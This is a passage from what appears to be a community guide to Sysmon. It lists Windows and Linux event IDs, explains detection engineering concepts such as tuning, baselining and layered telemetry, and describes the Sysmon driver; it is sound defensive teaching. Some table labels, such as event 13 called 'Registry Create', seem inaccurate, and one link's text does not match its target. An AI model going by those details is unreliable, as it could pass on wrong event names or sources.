








\newpage


# What is Sysmon


Sysmon (System Monitor) is a free, advanced system monitoring tool developed by Mark Russinovich and Tomas Garnier, with contributions from David Magnotti, Mark Cook, Rob Mead, Giulia Biagini, Alex Mihaiuc, Kevin Sheldrake, and John Lambert.  
Originally, Sysmon was created for internal use at Microsoft, but it is now widely used by security professionals to enhance visibility into system activity and detect abnormal behavior or potential threats.

Sysmon enables defenders to better detect suspicious activity by monitoring and logging a broad range of system events, such as process creation, network connections, and changes to files or registry keys. These logs are especially valuable for security investigations and threat detection.


Sysmon for Windows supports ARM, x64 and x86 systems. Installation and configuration are managed through a single command-line tool. When installed, Sysmon logs events to the Microsoft-Windows-Sysmon/Operational Event Log.


The following table lists the event types and corresponding event IDs generated by Sysmon on Windows systems:

| Event Type                        | Event ID |
|------------------------------------|----------|
| Sysmon Service Status Changed      | 0        |
| Process Create                     | 1        |
| File Create Time                   | 2        |
| Network Connect                    | 3        |
| Service State Change               | 4        |
| Process Terminate                  | 5        |
| Driver Load                        | 6        |
| Image Load                         | 7        |
| Create Remote Thread               | 8        |
| Raw Access Read                    | 9        |
| Process Access                     | 10       |
| File Create                        | 11       |
| Registry Object Added or Deleted   | 12       |
| Registry Create                    | 13       |
| Registry Rename                    | 14       |
| File Create Stream Hash            | 15       |
| Sysmon Config Change               | 16       |
| Named Pipe Create                  | 17       |
| Named Pipe Connected               | 18       |
| WMI Event Filter                   | 19       |
| WMI Event Consumer                 | 20       |
| WMI Consumer to Filter             | 21       |
| DNS Query                          | 22       |
| File Delete                        | 23       |
| Clipboard Capture                  | 24       |
| Process Tampering                  | 25       |
| File Delete Detected               | 26       |
| Error                              | 255      |


Sysmon for Linux is an open-source adaptation, designed to collect similar security-relevant events from Linux environments. It leverages eBPF (Extended Berkeley Packet Filter) to efficiently monitor system activity at the kernel level.

Sysmon for Linux can be compiled from source or installed via your distribution’s package manager. Currently supported distributions include:

- Ubuntu
- Debian
- Red Hat Enterprise Linux
- Fedora Linux
- openSUSE
- SUSE Linux Enterprise Server

Sysmon logs events to the native system logging facility (such as journald). The scope of supported events is narrower compared to Windows, due to differences in operating system architecture.


The following table lists the event types and event IDs currently supported by Sysmon on Linux:

| Event Type                   | Event ID |
|------------------------------|----------|
| Sysmon Service Status Changed | 0       |
| Process Create                | 1       |
| Network Connect               | 3       |
| Service State Change          | 4       |
| Process Terminate             | 5       |
| Raw Access Read               | 9       |
| File Create                   | 11      |
| Sysmon Config Change          | 16      |
| File Delete                   | 23      |

Sysmon for Linux uses the sysinternalsEBPF library to capture file and network activities. eBPF allows execution of custom code at the kernel level, enabling efficient and secure event collection without requiring kernel modules.

Both sysinternalsEBPF and Sysmon for Linux are open source projects, allowing the community to contribute and extend their features. You can find the projects and source code on GitHub:  
- [Sysmon for Linux](https://github.com/Sysinternals/SysmonForLinux)  
- [sysinternalsEBPF library](https://github.com/Sysinternals/ebpf-for-windows)


- [Sysmon for Windows - Microsoft Documentation](https://docs.microsoft.com/en-us/sysinternals/downloads/sysmon)
- [Sysmon for Linux - GitHub](https://github.com/Sysinternals/SysmonForLinux)

Sysmon is a vital tool for defenders looking to increase their visibility into system activities and detect security threats on both Windows and Linux platforms.

# Detection Engineering Fundamentals


Before diving into the technical details of Sysmon, it is important to understand the discipline that makes this tool truly valuable: detection engineering. Sysmon is not just a logging tool - it is a powerful instrument for detecting malicious behavior. However, like any instrument, its effectiveness depends on how skillfully it is used.


Detection engineering is the practice of designing, building, and maintaining systems that identify malicious or anomalous behavior in an environment. It sits at the intersection of threat intelligence, system knowledge, and data analysis. A detection engineer takes what we know about how attackers operate and translates that knowledge into concrete detection logic that can identify those behaviors when they occur.

Think of it this way: if attackers are constantly finding new ways to break into systems, detection engineers are constantly finding new ways to spot them doing it. This is not about waiting for antivirus signatures or relying solely on tools to protect you. Detection engineering is proactive - it means understanding your environment so well that you can recognize when something does not belong.

In the context of Sysmon, detection engineering means configuring the tool to capture the right information at the right time. Not everything that happens on a system is suspicious, and logging everything creates more problems than it solves. The skill lies in knowing what to capture and what to ignore.


To work effectively with Sysmon as a detection engineer, you need to understand several important concepts:

**Signal-to-Noise Ratio**: This is perhaps the most critical concept. Signal refers to the meaningful data - the evidence of actual threats or important events. Noise refers to the normal, benign activity that clutters your logs. A good Sysmon configuration maximizes signal while minimizing noise. If your logs are 99% noise, you will miss the 1% that matters.

**True Positives**: These are legitimate detections - your system correctly identified actual malicious or anomalous activity. This is what we are trying to achieve.

**False Positives**: These occur when your detection logic flags normal, benign activity as suspicious. Too many false positives erode trust in your detections and waste valuable analyst time. Reducing false positives is one of the main goals of iterative configuration development.

**False Negatives**: These are the detections you missed - malicious activity that occurred but was not captured or flagged. False negatives are dangerous because they represent blind spots in your visibility. This happens when configurations are too restrictive or when exclusions are too broad.

**Baseline**: A baseline is your understanding of what normal looks like in your environment. You cannot identify anomalies until you know what normal behavior is. Baselining involves observing your systems over time to understand typical process execution, network connections, file operations, and other activities.

**MITRE ATT&CK Framework**: This is a knowledge base of adversary tactics and techniques based on real-world observations. It helps detection engineers understand what attackers do and, more importantly, what data sources can detect those actions. Sysmon is one of the most valuable data sources referenced in the ATT&CK framework, particularly for process monitoring.


Out of the box, Sysmon can be configured to log everything or log nothing. Neither extreme is useful. Logging everything creates an overwhelming volume of data that is expensive to store, slow to search, and impossible to analyze effectively. Logging nothing gives you no visibility.

The real value of Sysmon comes from thoughtful configuration. A well-designed configuration captures the behaviors that matter while filtering out the noise. This serves several critical purposes:

**Improved Detection Capability**: When your logs contain mostly meaningful data, it becomes much easier to identify actual threats. Analysts can focus on investigating real issues rather than wading through normal system activity.

**Reduced Storage Costs**: Security data can consume enormous amounts of storage, especially in large environments. Every event Sysmon logs must be stored, often for months or years for compliance reasons. Filtering out unnecessary events can reduce storage requirements by 80% or more in some cases.

**Better SIEM Performance**: Security Information and Event Management (SIEM) platforms are where Sysmon logs are typically sent for analysis. These systems have to index, search, and correlate millions of events. The more data you feed them, the slower they become and the more expensive they are to operate. A lean, well-filtered log stream keeps your SIEM responsive and cost-effective.

**Faster Investigations**: When an incident occurs, time matters. Analysts need to quickly understand what happened. If they have to sift through thousands of irrelevant events to find the few that matter, investigations slow down. Clean logs mean faster response times.

**Compliance and Retention**: Many organizations must retain security logs for regulatory compliance. The more you log, the more you must retain. Thoughtful configuration ensures you are retaining valuable evidence, not just storing noise.


One of the most critical principles in detection engineering is **defense in depth** - the concept that no single tool or data source should be your only line of defense. While Sysmon provides exceptional visibility into endpoint activity, it should **never be your only source of detection telemetry**.

**Why Multiple Data Sources Matter**:

Sysmon can be disabled, evaded, or bypassed by sophisticated attackers. If Sysmon is your only detection mechanism, a single point of failure exists. Mature detection programs use multiple, overlapping data sources that provide redundancy and complementary visibility.

**Windows Native Audit Logs**: Windows has built-in audit logging capabilities that should be enabled alongside Sysmon:

* **Security Event Log**: Provides authentication events (logon/logoff), privilege use, account management, and policy changes that Sysmon does not capture
  - Event ID 4688 (Process Creation) provides similar data to Sysmon Event ID 1, offering redundancy
  - Event ID 4624/4625 (Logon Success/Failure) are critical for detecting credential attacks and lateral movement
  - Event ID 4672 (Special Privileges Assigned) identifies privilege escalation
  - Event ID 4698-4702 (Scheduled Task Events) detect persistence mechanisms

* **System Event Log**: Captures service installations, system startups, and critical system events that can indicate tampering or persistence

* **Application Event Log**: May contain evidence of exploitation or abuse of applications

* **PowerShell Operational Logs**: Module logging, script block logging, and transcription provide deep visibility into PowerShell activity that complements Sysmon's process creation and script file monitoring

* **WMI-Activity/Operational**: Logs WMI activity including temporary subscriptions and events in the Root namespace that Sysmon does not capture (Sysmon only logs Root\Subscription)

**Why This Redundancy is Critical**:

1. **Attacker Evasion**: Attackers may target Sysmon specifically, attempting to stop the service or tamper with the driver. Windows audit logs are harder to disable without generating obvious alerts.

2. **Data Correlation**: Having multiple sources for the same event type (like process creation from both Sysmon and Windows Security Event ID 4688) allows you to detect tampering. If one source shows an event but the other does not, this is a strong indicator of log manipulation.

3. **Complementary Coverage**: Some activities are better captured by Windows audit logs than Sysmon. For example, Windows Security events provide detailed authentication information, privilege use, and account activity that Sysmon does not cover.

4. **Forensic Completeness**: During incident response, having multiple log sources provides a more complete timeline and can help validate findings. If logs conflict, it may indicate attacker activity.

5. **Detection Gaps**: As mentioned in the Sysmon chapter content, certain Sysmon event types have known limitations. For example, Sysmon only detects CreateRemoteThread() for process injection but not alternative APIs like NtCreateThreadEx(). Windows audit logs may capture related behaviors that Sysmon misses.

**Practical Implementation**:

For each detection use case, identify **all available data sources** that can provide visibility:

* **Lateral Movement Detection**: Combine Sysmon network connections (Event ID 3) with Windows logon events (4624/4625), network connection audit events, and firewall logs

* **Credential Access**: Use Sysmon process access events (Event ID 10) for LSASS dumping alongside Windows Security audit policy for sensitive privilege use and special logon events

* **Persistence Mechanisms**: Monitor with Sysmon registry events (12-14), file creation (11), service events (4), WMI events (19-21), AND Windows Security scheduled task events (4698-4702), service installation events (7045), and startup program modifications

* **Process Execution**: Log both Sysmon process creation (Event ID 1) and Windows Security process creation (Event ID 4688, requires audit policy and command line logging enabled)

**Best Practice**: When designing detection rules, always ask: "If Sysmon is compromised or bypassed, what other data sources can detect this behavior?" If the answer is "none," you have identified a dangerous single point of failure that needs additional data sources.

This layered approach ensures that even if an attacker disables Sysmon or finds ways to evade its monitoring, your detection capability remains intact through other telemetry sources. It also provides the redundancy needed to detect log tampering itself - a critical capability when responding to sophisticated adversaries.


Creating an effective Sysmon configuration is not a one-time task. It is an iterative process that requires continuous refinement. Here is how mature detection engineering teams approach this:

**Phase 1 - Initial Deployment**: Start with a conservative configuration that captures key event types without exclusions. This gives you broad visibility to understand what is happening in your environment. Yes, it will be noisy, but that is expected at this stage. It is important to note that not all event types require the same approach. Some event types, like process tampering, driver loading, or raw disk access, are relatively infrequent in normal operations. For these low-volume event types, you can often log all occurrences without filtering and still maintain a good signal-to-noise ratio. Other event types, like process creation or network connections, occur constantly and require more aggressive filtering to be useful.

**Phase 2 - Baselining**: Observe the data being generated. What processes run regularly? What network connections are normal? What file operations happen as part of standard business activities? This phase typically takes 2-4 weeks, depending on your environment's complexity. Document what you learn. During this phase, you will quickly identify which event types generate high volumes of data and which remain relatively quiet.

**Phase 3 - Tuning**: Begin adding exclusions to filter out known-good activity for high-volume event types. This is where you reduce the noise. Be conservative - it is better to exclude too little at first than to exclude too much and create blind spots. Focus on high-volume, low-value events first. For low-volume event types that rarely occur during normal operations, you may decide to keep logging everything, using targeted include filters to ensure you capture the specific behaviors that matter most.

**Phase 4 - Validation**: After applying exclusions, validate that you have not created false negatives. Test your configuration against known attack techniques (in a safe, controlled manner). Can you still detect process injection? Do lateral movement attempts still generate logs? This phase is critical and often skipped, which leads to dangerous blind spots.

**Phase 5 - Monitoring and Refinement**: Even after deployment, continue to monitor the effectiveness of your configuration. As your environment changes - new applications are deployed, systems are upgraded, business processes evolve - your configuration must adapt. Schedule regular reviews, perhaps quarterly, to assess whether your configuration still meets your needs.

**Phase 6 - Threat Intelligence Integration**: As new attack techniques emerge or new vulnerabilities are disclosed, revisit your configuration. Can you detect this new technique? Do you need to modify exclusions to ensure visibility? This keeps your detections current and effective.

This iterative cycle never truly ends. Detection engineering is continuous improvement, not a project with a finish line.


One of the hardest lessons for new detection engineers to learn is that you cannot log everything. There is a natural desire to maximize visibility by capturing all possible data. However, this creates real problems:

**System Performance Impact**: Sysmon runs at the kernel level and filters events in real-time. The more complex your configuration and the more events you capture, the more CPU resources Sysmon consumes. In extreme cases, poorly designed configurations can noticeably impact system performance.

**Network and Storage Costs**: Every event logged must be transmitted to your SIEM and stored. In a large environment, this can mean terabytes of data per day. At cloud storage prices, this becomes expensive quickly. Network bandwidth to transmit logs can also become a constraint.

**Analysis Paralysis**: Human analysts can only review so much data. If you generate millions of events per day, no team can keep up with reviewing them all. The more noise in your logs, the more likely real threats are to be missed.

The key is to focus on capturing outliers and anomalies, not normal behavior. You want to log the things that should not happen, not the things that happen all the time. This is especially important for high-volume event types like process creation and network connections. For lower-volume event types, the cost-benefit analysis is different - the overhead of logging all driver loads or all process tampering events is usually acceptable because these events are rare enough that they do not overwhelm your systems.


The goal of configuration tuning is to minimize both false positives and false negatives. These two objectives can be in tension - making your rules more specific to reduce false positives can create gaps that increase false negatives. The skill is finding the right balance.

**Reducing False Positives**: When you encounter false positives, resist the urge to immediately add broad exclusions. Instead, understand why the false positive occurred. Is this a legitimate business process you did not know about? Can you exclude it using multiple specific criteria rather than a broad rule? For example, instead of excluding all PowerShell execution, exclude PowerShell when it is launched by a specific management tool from a specific path with specific parameters.

**Preventing False Negatives**: False negatives often result from overly aggressive exclusions. When you exclude events, ask yourself: could an attacker abuse this exclusion? If you exclude a process by name only, an attacker can simply copy their malicious tool to use that same name. This is why multi-field exclusions are critical - use combinations of process path, command line parameters, hashes, and parent process information to create exclusions that are specific enough that they cannot be easily mimicked.

**Testing is Essential**: The only way to know if you have introduced false negatives is to test. Use frameworks like Atomic Red Team or tools like Caldera to safely simulate attack techniques in a test environment. Run your simulated attacks and verify that your Sysmon configuration still captures the activity. If an attack simulation does not generate the expected logs, you have found a false negative that needs to be addressed.


As you work through the chapters that follow, keep these detection engineering principles in mind. Each event type will discuss not just what Sysmon can log, but why it matters for detection, how to configure it effectively, and what to watch out for.

Detection engineering is as much an art as a science. It requires understanding both the technical capabilities of your tools and the creative thinking of your adversaries. The goal is not perfection - you will never have zero false positives or zero false negatives. The goal is continuous improvement, building a detection capability that is effective, sustainable, and resilient.

Sysmon is one of the most powerful tools available for endpoint detection, but its power comes from how you use it. A thoughtfully designed, iteratively refined configuration tuned to your environment's needs will serve as the foundation for strong security monitoring and rapid incident response.

Now, let us explore how to put these principles into practice.

# Sysmon on Windows

## The Sysmon Driver


All of the monitoring is performed thanks to a driver that Sysmon installs called SysmonDrv. The driver will hook into Windows APIs and leverage Event Tracing for Windows (ETW) to capture the information on the actions it wants to monitor.

This Sysmon Driver has a unique altitude number of 385201 that determines the order of loading of the driver in comparison to other drivers on the system. Some blog posts recommend changing this number in the registry for obfuscation, but this may cause a conflict with another driver and prevent Sysmon from working or cause other errors on the system.

The driver is loaded by a service at system startup and a secondary service then queries the cached information.


For all file system operations, the driver registers as a Minifilter driver that is attached to volumes allowing it to see all actions taken by APIs before they are processed by the file system.


Sysmon sets multiple callbacks on kernel objects in addition to using telemetry APIs and ETW.


When the tool is downloaded from the Microsoft Sysinternals website <https://docs.microsoft.com/en-us/sysinternals/> it is important to save and identify previous versions since Microsoft does not provide older versions and the release notes do not detail what has been fixed. Microsoft has a fast release cycle, forcing users to test very carefully and to keep track of versions.

You can take a look at recent changes across versions in the community guide [Sysmon Changelog](https://github.com/trustedsec/SysmonCommunityGuide/blob/master/sysmon-changelog.md)

Another important piece of information is that there is no support from Microsoft on the Sysinternal tools—they are free and provided as is. This means that a testing plan for the environment it is deployed on should be formulated, tested, implemented, and improved upon as new versions of Sysmon are released.

## Install and Configuration


Sysmon installation and configuration can be done via the command line. When Sysmon is downloaded from Microsoft, the zip file will contain two command line versions of the tool:

